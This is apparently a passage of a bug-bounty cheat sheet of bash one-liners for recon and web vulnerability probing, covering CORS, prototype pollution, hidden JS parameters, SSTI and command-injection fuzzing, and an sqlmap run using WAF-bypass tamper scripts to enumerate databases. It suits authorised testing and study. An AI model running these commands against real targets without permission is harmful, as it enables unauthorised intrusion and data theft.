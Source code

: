 `root@bb:~/.local/share/sqlmap/output`
```bash
find -type f -name "log" -exec sh -c 'grep -q "Parameter" "{}" && echo "{}: SQLi"' \;
```
**CORS**
```bash
echo target.com | (gau || hakrawler || waybackurls || katana) | while read url;do target=$(curl -s -I -H "Origin: https://evil.com" -X GET $url) | if grep 'https://evil.com'; then [Potentional CORS Found]echo $url;else echo Nothing on "$url";fi;done
```
**Prototype Pollution**
```bash
subfinder -d target.com -all -silent | httpx -silent -threads 100 | anew alive.txt && sed 's/$/\/?__proto__[testparam]=exploit\//' alive.txt | page-fetch -j 'window.testparam == "exploit"? "[VULNERABLE]" : "[NOT VULNERABLE]"' | sed "s/(//g" | sed "s/)//g" | sed "s/JS //g" | grep "VULNERABLE"
```
**JS Files**
>Find JS Files
```bash
cat target.txt | (gau || hakrawler || waybackurls || katana) | grep -i -E "\.js" | egrep -v "\.json|\.jsp" | anew js.txt
```
```bash
while read -r url; do
  if curl -s -o /dev/null -w "%{http_code}" "$url" | grep -q 200 && \
     curl -s -I "$url" | grep -iq 'Content-Type:.*\(text/javascript\|application/javascript\)'; then
    echo "$url"
  fi
done < urls.txt > js.txt
```
**Hidden Params in JS**
```bash
cat subs.txt | (gau || hakrawler || waybackurls || katana) | sort -u | httpx -silent -threads 100 | grep -Eiv '(.eot|.jpg|.jpeg|.gif|.css|.tif|.tiff|.png|.ttf|.otf|.woff|.woff2|.ico|.svg|.txt|.pdf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Z0-9]+" | sed -e 's,'var','"$url"?',g' -e 's/ //g' | grep -Eiv '\.js$|([^.]+)\.js|([^.]+)\.js\.[0-9]+$|([^.]+)\.js[0-9]+$|([^.]+)\.js[a-z][A-Z][0-9]+$' | sed 's/.*/&=FUZZ/g'); echo -e "\e[1;33m$url\e[1;32m$vars";done
```
**Extract sensitive end-point in JS**
```bash
cat main.js | grep -oh "\"\/[a-zA-Z0-9_/?=&]*\"" | sed -e 's/^"//' -e 's/"$//' | sort -u
```
**SSTI**
```bash
for url in $(cat targets.txt); do python3 tplmap.py -u $url; print $url; done
```
```bash
echo target.com | gau --subs --threads 200 | httpx -silent -mc 200 -nc | qsreplace “aaa%20%7C%7C%20id%3B%20x” > fuzzing.txt && ffuf -ac -u FUZZ -w fuzzing.txt -replay-proxy 127.0.0.1:8080
```
**Scan IPs**
```bash
cat my_ips.txt | xargs -L 100 shodan scan submit --wait 0
```
**Screenshots using Nuclei**
```bash
nuclei -l target.txt -headless -t nuclei-templates/headless/screenshot.yaml -v
```
**SQLmap Tamper Scripts - WAF bypass**
```bash
sqlmap -u 'http://www.site.com/search.cmd?form_state=1' --level=5 --risk=3 --tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes --no-cast --no-escape --dbs --random-agent
```
**Shodan Cli**
```bash
```